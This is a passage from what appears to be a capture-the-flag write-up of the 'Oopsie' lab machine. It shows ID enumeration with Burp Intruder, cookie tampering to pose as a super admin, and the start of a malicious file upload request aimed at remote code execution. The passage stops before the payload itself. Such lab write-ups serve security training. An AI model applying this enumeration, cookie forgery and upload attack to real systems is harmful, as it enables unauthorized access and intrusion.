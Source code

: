 (Keep the attack type as Sniper).  Now go into the Payloads sub-tab.  We want to populate the "Payload Opions [Simple list]" section.  We can generate a list of 1000 IDs to start with:
```bash
for i in $(seq 1 1000); do echo "$i"; done | pbcopy # or
julia -e '[println(i) for i in 1:1000]' | pbcopy # etc; there are many ways to skin a cat (but seriously, who skins cats?!)
```

Now paste it into the aforementioned section.  Click on the Options tab and ensure that we "Always" Follow Redirections.  Also select the option to "Process cookies in redirections".

Going back to the Target tag, we can now press Start attack.  We slowly see the responses coming through, their lengths and their statuses, etc.  We look for any irregularities.

Immediately, (well, after waiting a little), we see that `id=30` produces a different length to all the others.  Going back to Repeater [note: sending something from Proxy to Repeater, you can use the <kbd>&#8984;</kbs> + <kbd>R</kbd> shortcut], we change ID=30, and we see

<table align="center">
	<thead>
		<tr>
			<td>Access ID</td>
			<td>Name</td>
			<td>Email</td>
		</tr>
	</thead>
	<tbody>
		<tr>
			<td><code>86575</code></td>
			<td>super admin</td>
			<td><code>superadmin@megacorp.com</code></td>
		</tr>
	</tbody>
</table>

Now I think we can try what we were trying before with the Uploads intercept!  Intercepting the Uploads request and sending to Repeater, we change
```
user=34322; role=admin
```
to
```
user=86575; role=super admin
```

And show response in browser for easy access.  We can upload a file!  This is excellent, because we have done Remote Code Execution (RCE) before.  Let's put in a simple display script, so that our request looks like this:
```
POST /cdn-cgi/login/admin.php?content=uploads&action=upload HTTP/1.1
Host: oopsie
Content-Length: 401
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://oopsie
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxCPwDzmeB8D1ILNO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://oopsie/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: user=86575; role=super admin
Connection: close

------WebKitFormBoundaryxCPwDzmeB8D1ILNO
Content-Disposition: form-data; name="name"
```
